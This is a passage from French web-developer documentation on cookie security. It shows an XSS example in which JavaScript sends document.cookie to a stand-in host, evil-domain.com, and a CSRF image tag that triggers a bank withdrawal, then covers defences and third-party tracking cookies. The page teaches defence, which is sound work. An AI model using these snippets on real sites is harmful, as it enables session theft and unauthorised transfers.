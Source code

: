 ```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

L'attribut `HttpOnly` du cookie peut aider à empêcher cette attaque en bloquant l'accès à cette valeur de cookie via JavaScript.

### Cross-Site Request Forgery (CSRF)

[Wikipedia](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery) mentionne un autre bon exemple d'attaque {{Glossary("CSRF")}}. Quand quelqu'un inclut une image qui n'est pas réellement une image (par exemple dans le cas d'un chat ou d'un forum), mais envoie en réalité une requête à la banque pour retirer de l'argent:

```html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

Maintenant, si vous étiez connecté à votre compte bancaire et que vos cookies étaient toujours valides (et qu'il n'y ait pas d'autre demande de validation), vous transféreriez de l'argent dès que vous afficheriez la page qui charge cette image. Il y a quelques techniques qu peuvent être utilisées pour limiter les risques:

- Comme pour {{Glossary("Cross-site_scripting","XSS")}}, filtrer les données en entrée est important.
- Il devrait toujours y avoir une confirmation requise pour toute action sensible.
- Les cookies utilisés pour les actions sensibles ne doivent avoir qu'une durée de vie limitée.
- Pour plus de conseils de prévention, voir [OWASP CSRF prevention cheat sheet](<https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet>).

## Suivi et confidentialité

### Cookies tiers

Les cookies ont un domaine qui leur est associé. Si ce domaine est le même que la page sur laquelle vous êtes, on parle de cookie interne (_first-party cookie_). Si le domaine est différent, on parle de cookie tiers (_third-party cookie_).

Alors que les cookies internes sont uniquement envoyés au serveur qui les a définis, une page web peut également contenir des images ou tout autre composant stockés sur d'autres domaines (comme des bannières publicitaires). Les cookies qui sont envoyés via les composants tiers sont appelés cookies tiers et ils sont principalement utilisés pour la publicité et le suivi sur le web. Voir par exemple les [types de cookies utilisés par Google](https://www.google.com/policies/technologies/types/). La plupart des navigateurs autorisent les cookies tiers par défaut, mais il existe des addons disponibles pour les bloquer (par exemple, [Privacy Badger](https://addons.mozilla.org/en-US/firefox/addon/privacy-badger17/) par [EFF](https://www.eff.org/)).

Si vous n'avertissez pas vos utilisateurs de l'utilisation de cookies tiers, vous pouvez perdre leur confiance s'ils la découvrent. Une divulgation claire (tel que dans une politique de confidentialité) tend à éliminer les effets négatifs d'une telle découverte. Quelques pays ont également une législation sur les cookies. Voir par exemple l'article [cookie statement](https://wikimediafoundation.org/wiki/Cookie_statement) de Wikipedia.

### Do-Not-Track
